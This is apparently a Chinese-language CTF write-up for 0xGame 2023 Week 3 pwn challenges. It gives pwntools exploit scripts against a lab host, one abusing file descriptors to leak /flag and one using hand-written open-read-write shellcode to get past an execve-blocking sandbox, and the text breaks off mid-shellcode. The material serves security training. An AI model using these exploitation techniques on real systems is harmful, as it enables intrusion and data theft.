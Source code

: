 # 0xGame 2023 Week3 Pwn WriteUp

## all-in-files

主要想介绍一下linux的文件描述符，还需要注意一下发文件名的时候需要用send不能sendline

```py
from pwn import *
#s=process("./fd")
s=remote("192.168.3.253",53000)
s.sendafter(b"open: ",b"/flag")
s.sendlineafter(b"from: ",b"1")
s.sendlineafter(b"to: ",b"2")
s.interactive()
```

写到stderr而不写到stdin的原因是~~它没关~~高版本下stdin只读，原因不明。

然后有人来问才发现read的时候直接用的open返回的fd，之前输入的in_fd根本没用上。~~不愧是签到题，更简单了~~

## shellcode, but FOP

> 毕竟是CTF，我们还是要面向flag编程的，对吧，对吧~

主要是开了沙盒，不能用execve，不能拿shell了。

但结论要看目的，你的目的是拿flag，那还能抢救。

我们考虑orw，open-read-write，把flag文件打开，把文件内容读取到内存中，然后再写出来。

具体到哪取决于具体情况，对于本题来说。

这里文件名加了随机，我们还要了解一下怎么通过系统调用来获取当前目录下的所有文件。

用`getdents64`系统调用获取当前目录下文件，然后遍历`dirent64`结构体即可。

手搓shellcode的经验需要慢慢积累，不用急。

```py
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
#s=process("../dist/ret2shellcode-revenge")
s=remote("192.168.3.253",53001)
#sc=shellcraft.open("flag")+shellcraft.read(3,0x20230000,0x100)+shellcraft.write(1,0x20230000,0x100)
pause()
sc="""
xor rdi,rdi
xor dl,dl
push rdx
pop rsi
syscall  # first read()
"""
sc2="""
push rsi
pop rdi
xor rsi,rsi
xor rdx,rdx
push 2
pop rax
syscall   # open
push rdi
pop rsi
add rsi,0x500
push rax
pop rdi
inc dh
```